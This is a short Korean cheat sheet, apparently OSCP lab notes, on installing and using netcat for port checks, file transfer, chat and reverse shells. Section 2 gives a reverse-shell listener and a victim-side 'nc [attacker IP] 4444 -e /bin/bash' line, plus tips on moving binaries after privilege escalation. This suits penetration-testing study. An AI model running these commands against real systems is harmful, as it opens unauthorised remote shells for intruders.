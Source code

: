 # Netcat 설치 및 실전 사용법

## 설치

```bash
sudo apt update
sudo apt install netcat-traditional -y
```

- `netcat-openbsd`: 최신 옵션(-e 등 일부 제한), 대부분의 리눅스에서 기본 추천
- `netcat-traditional`: 구버전, -e 옵션 지원(리버스 쉘에 유리)
- 실전에서는 둘 중 하나를 명확히 선택해서 설치해야 함
  - 리버스 쉘 등 OSCP 실습에선 `netcat-traditional`이 더 직관적임
  - 설치 오류 시 위 명령어 중 하나를 선택해서 진행

## 주요 사용법

### 1. 포트 스캔

```bash
nc -vn [타겟IP] [포트번호]
# 예시: nc -vn 10.10.10.10 80
```

- 열려있는 포트 확인에 사용. `-v`(verbose), `-n`(숫자 IP)

### 2. 리버스 쉘 연결

#### 리스너(공격자)

```bash
nc -lvnp 4444
```

#### 타겟(피해자)

```bash
nc [공격자IP] 4444 -e /bin/bash
# 일부 시스템은 -e 옵션이 막혀있을 수 있음
```

- 리버스 쉘 획득 시 가장 직관적으로 사용

### 3. 파일 전송

#### 송신

```bash
nc [타겟IP] 4444 < 파일명
```

#### 수신

```bash
nc -lvnp 4444 > 파일명
```

- 권한 상승 후 바이너리 전송 등 실전에서 자주 활용

### 4. 간단한 채팅

#### 서버

```bash
nc -lvnp 1234
```

#### 클라이언트

```bash
nc [서버IP] 1234
```

- 내부 네트워크에서 통신 테스트에 유용

## 팁

- netcat은 단순하지만 강력함. 실전에서는 리버스 쉘, 파일 전송, 포트 스캔에 가장 많이 사용됨
- `ncat`(nmap 패키지 포함)은 netcat의 대체품으로, 옵션이 더 다양함
